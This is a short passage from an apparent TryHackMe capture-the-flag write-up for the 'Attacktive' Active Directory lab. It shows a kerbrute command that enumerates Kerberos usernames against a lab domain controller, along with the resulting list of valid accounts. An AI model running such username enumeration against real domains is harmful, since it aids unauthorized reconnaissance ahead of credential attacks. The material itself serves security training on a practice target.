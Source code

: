 
running [[../../../Tools n Info/10 - AD/Tools/kerbrute|kerbrute]] just to test it:

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute userenum -d spookysec.local --dc 10.10.229.142 userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:19:37 >  Using KDC(s):
2025/07/04 19:19:37 >   10.10.229.142:88

2025/07/04 19:19:37 >  [+] VALID USERNAME:       james@spookysec.local
2025/07/04 19:19:38 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       James@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       robin@spookysec.local
2025/07/04 19:19:43 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/07/04 19:19:45 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/07/04 19:19:49 >  [+] VALID USERNAME:       backup@spookysec.local
2025/07/04 19:19:51 >  [+] VALID USERNAME:       paradox@spookysec.local
2025/07/04 19:20:03 >  [+] VALID USERNAME:       JAMES@spookysec.local
2025/07/04 19:20:08 >  [+] VALID USERNAME:       Robin@spookysec.local
2025/07/04 19:20:32 >  [+] VALID USERNAME:       Administrator@spookysec.local
2025/07/04 19:21:21 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2025/07/04 19:21:37 >  [+] VALID USERNAME:       Paradox@spookysec.local
2025/07/04 19:22:30 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2025/07/04 19:22:45 >  [+] VALID USERNAME:       ori@spookysec.local
2025/07/04 19:23:18 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2025/07/04 19:25:13 >  Done! Tested 73317 usernames (16 valid) in 336.514 seconds
```

much quicker to run through the brute force list!

james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local
ori@spookysec.local

